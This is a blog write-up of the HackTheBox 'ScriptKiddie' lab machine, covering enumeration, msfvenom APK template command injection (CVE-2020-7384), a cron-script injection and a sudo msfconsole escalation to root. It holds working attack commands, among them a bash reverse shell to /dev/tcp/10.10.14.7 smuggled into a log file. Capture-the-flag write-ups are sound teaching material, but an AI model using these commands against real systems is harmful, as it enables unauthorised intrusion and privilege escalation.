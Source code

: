 ```yaml
---
layout:  single
title:   "ScriptKiddie"
date:    2021-05-26
toc: true
toc_sticky: true
author_profile: true
---
```

{:refdef: style="text-align: center;"}
[![box card](/assets/images/scriptkiddie/info_card.png)](/assets/images/scriptkiddie/info_card.png)
{: refdef}

ScriptKiddie is an easy rated machine on HackTheBox by [0xdf](https://www.hackthebox.eu/home/users/profile/4935). For the user part we will exploit a web application that let's us generate mfsvenom files with templates abusing [CVE-2020-7384](https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/). This gives us a shell as the user `kid`, from whom we pivot to the user `pwn` abusing a running cronjob with another command injection. As `pwn` we can run `msfconsole` as root,  which let's us drop into a rootshell executing bash.

# User
## Nmap
As usual we start our enumeration on the target with an allports nmap scan to capture the whole attack surface, followed by a script and version detection scan to obtain more detailed information on the open ports.

`Nmap allports`

```
$ sudo nmap -p- -T4 10.129.153.127
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-29 06:12 UTC
Nmap scan report for 10.129.153.127
Host is up (0.073s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp

Nmap done: 1 IP address (1 host up) scanned in 46.68 seconds
```

`Nmap script and version scan`

```
$ sudo nmap -p22,5000 -sC -sV 10.129.153.127
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-29 06:16 UTC
Nmap scan report for 10.129.153.127
Host is up (0.032s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.21 seconds
```

## Msfvenom template
Going over to the werbserver on port 5000 we can see that it is offering 3 different applications.

{:refdef: style="text-align: center;"}
[![website](/assets/images/scriptkiddie/website.png)](/assets/images/scriptkiddie/website.png)
{: refdef}

We can scan a host with nmap entering an ip, generate `msfvenom` payloads with templates and also perform a `searchsploit` search. Scanning localhost with the nmap service we don't get any additional information. The interesting thing here is the payload generation with a template because it is vulnerable to [CVE-2020-7384](https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/).
This works by exploiting a command injection vulnerability in msfvenom when generating an `apk` payload with a template file.
In a first step we will generate the malicious apk file using the msf module `unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection`.

```
       =[ metasploit v6.0.44-dev                          ]
+ -- --=[ 2132 exploits - 1139 auxiliary - 363 post       ]
+ -- --=[ 596 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 8 evasion                                       ]

Metasploit tip: After running db_nmap, be sure to 
check out the result of hosts and services

[*] Starting persistent handler(s)...
msf6 > use unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set lhost 10.10.14.7
lhost => 10.10.14.7
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set lport 7575
lport => 7575
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > run

[+] msf.apk stored at /home/jack/.msf4/local/msf.apk
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > 
```

Next we set up our `ncat` listener on the selected port.

```
$nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```

With preparations set we can now generate the `msfvenom` payload with our malicious `apk` template.

{:refdef: style="text-align: center;"}
[![payload_web](/assets/images/scriptkiddie/payload_web.png)](/assets/images/scriptkiddie/payload_web.png)
{: refdef}

After a short moment we get a hit back on our `ncat` listener and upgrade the shell. Now we can grab the user flag in `/home/kid`.

```
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.153.127.
Ncat: Connection from 10.129.153.127:47952.
python3 -c 'import pty;pty.spawn("/bin/bash")'
kid@scriptkiddie:~/html$ export TERM=xterm
export TERM=xterm
kid@scriptkiddie:~/html$ ^Z
[1]+  Stopped                 nc -lnvp 7575
$ stty raw -echo;fg
nc -lnvp 7575

kid@scriptkiddie:~/html$ stty rows 55 cols 236
kid@scriptkiddie:~/html$
```

```
kid@scriptkiddie:~$ wc -c user.txt 
33 user.txt
```

# Root

## Command injection #2
Looking around in the other users home directory we find the script `scanlosers.sh`. This script reads the logfile in `home/kid/logs/hackers` takes the third argument in each row, seperated by a space and runs a nmap script against it. This is also vulnerable to a simple command injection, which we can use to gain a shell as the user pwn.

```
kid@scriptkiddie:/home/pwn$ cat scanlosers.sh 
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```

First we set up our listener again.

```
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```

Then we place our command injection in the logfile and recieve an instant shell on the target.

```
kid@scriptkiddie:/home/pwn$ echo 'x x ;bash -c "bash -i >& /dev/tcp/10.10.14.7/7575 0>&1;"' > /home/kid/logs/hackers
```

We upgrade our shell again and continue on our way to root.

```
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.153.127.
Ncat: Connection from 10.129.153.127:48198.
bash: cannot set terminal process group (803): Inappropriate ioctl for device
bash: no job control in this shell
pwn@scriptkiddie:~$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
pwn@scriptkiddie:~$ export TERM=xterm
export TERM=xterm
pwn@scriptkiddie:~$ ^Z
[1]+  Stopped                 nc -lnvp 7575
$ stty raw -echo;fg
nc -lnvp 7575

pwn@scriptkiddie:~$ stty rows 55 cols 236
pwn@scriptkiddie:~$
```

## Sudo on Metasploit

Checking the sudo permission we see that pwn can run msfconsole as root. Since we can issue os commands inside msf, this gives us an easy way to escalate to root.

```
pwn@scriptkiddie:~$ sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

We start up msfconsole with sudo and execute `/bin/bash`.

```
pwn@scriptkiddie:~$ sudo /opt/metasploit-framework-6.0.9/msfconsole
```

This drops us into a rootshell and we can grab the rootflag.

```
msf6 > /bin/bash
[*] exec: /bin/bash

root@scriptkiddie:/home/pwn# id
uid=0(root) gid=0(root) groups=0(root)
root@scriptkiddie:/home/pwn# wc -c /root/root.txt
33 /root/root.txt
root@scriptkiddie:/home/pwn# 
```
